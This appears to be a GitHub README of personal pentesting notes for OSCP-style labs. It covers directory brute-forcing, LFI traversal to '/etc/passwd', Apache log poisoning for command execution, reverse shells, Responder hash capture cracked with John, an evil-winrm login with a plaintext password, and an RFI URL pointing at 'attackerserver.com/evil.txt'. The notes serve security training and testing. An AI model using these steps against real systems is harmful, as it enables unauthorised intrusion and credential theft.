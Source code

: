 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check `/robots.txt` `/sitemap.xml`\
2.`gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f` -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 `wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ` \ 
2.6. Check wappalayzer to check basic info of the page. \
3. `nikto -h $IP`   , `dirb http://IP -r -z 10`
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6. Searchsploit technologies for vulnerabiltieis `nmap -p 80,443  --script=*vuln* $IP`
7. Try directory busting while logged in
8. command Injections?  RCE, XSS, SQLi  enter a command and chaining commands such as  “&”, “&&”, “|”, “||”, etc

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with `?file=index.php ?book=`  (Possible vulnerabilities in source code)
3. book= `../../../../etc/passwd`   (Figure out if the server is hosting on **Window or Apache )
4. `../../../../var/www/html/index.php`  html to confirm log poisoning 
5. Add  `../ ../../../../` and check if the following following files exists.
6. `/etc/passwd`\ `/var/log/mail/USER`\  `/var/log/apache2/access.log`\  `/proc/self/environ`\  `/tmp/sess_ID`\ `/var/lib/php5/sess_ID`\ `/var/log/auth/log`\  
7. `/windows/system32/drivers/etc/hosts` (for **window host**)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, **lets log poision** `../../../../var/log/apache2/access.log` via invalid connection request.
9. Connect to `nc -nv $IP port`.Insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. Check for sucessful log poisioning `../../../../var/log/apache2/access.log&cmd=id`.
11. If you receive command execution, we will insert a reversshell via url encoding. Done. (wrapped and url encode)
12. Create a reverse webshell (Check if RFI) is also possible
13. Upload it 
14. 
15. methods 16-18 are not allowed in the OSCP.
16. Use responder to capture. `sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url`. Use john the ripper to match hash. 
17. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
18. login to window .`evil-winrm -i 10.129.147.34 -u Administrator -p badminton`
## RFI
1. Example Vulerable wesbites: `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`
2. Host a server with python `python3 -m http.server 8080` with reverseshell code.
## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --append-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python


## Top Ten OWASP.
1. Broken authentication
2. Sensetive Data exposure
3  Command Injection. Try valid argument followed by `;` and commands like `etc/passwd`
